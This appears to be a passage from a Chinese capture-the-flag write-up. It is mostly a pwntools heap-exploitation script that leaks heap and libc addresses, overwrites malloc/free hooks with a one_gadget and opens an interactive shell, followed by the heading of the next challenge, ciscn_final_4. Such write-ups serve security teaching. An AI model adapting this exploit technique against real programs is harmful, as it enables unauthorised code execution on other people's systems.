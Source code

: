 ```py
def exp():
    #leak heap
    for i in range(11):
        Add()#0
    Delete(0)
    Delete(0)


    Add("\x80\x70")#10
    p.recvuntil("\x80\x70",drop=False)
    heap_base = u64(('\x80\x70'+p.recvuntil(" ",drop=True)).ljust(8,'\x00')) - 0x80
    log.success("heap base => " + hex(heap_base))

    #leak libc
    Add(p64(heap_base+0x2e0),p64(heap_base+0x2e0)*13)#11
    payload = p64(heap_base+0x2b0)
    raw_input()
    Add(payload)#11

    Add(p64(heap_base+0x2b0),p64(heap_base+0x2b0)*3+p64(0)+p64(0x421)+p64(heap_base+0x2b0)*3)
    Delete(1)

    Add('\xa0','\xa0')
    raw_input()
    p.recvuntil("\x7f\x20")
    libc_base = u64(p.recv(6).ljust(8,'\x00')) - 96 - libc.sym['__malloc_hook'] - 0x10
    log.success("libc base => " + hex(libc_base))


    Add(p64(libc_base+libc.sym["__malloc_hook"]-0x28),p64(0))
    Add(p64(libc_base+libc.sym["__free_hook"]-0x18),p64(0))
    for i in range(8):
        Add(p64(libc_base+libc.sym["__free_hook"]-0x18),p64(0))

    shell_addr = libc_base + gadgets[1]
    Add(p64(0),p64(libc_base+libc.sym['__malloc_hook'])+p64(libc.sym['__realloc_hook'])+p64(shell_addr))
    #gdb.attach(p)
    p.recvuntil('>> ')
    p.sendline('1')
    p.interactive()

exp()
```

### ciscn_final_4

#### 前言

应该是UCTF`orw_heap`的原型题，不过要求更严苛了一点

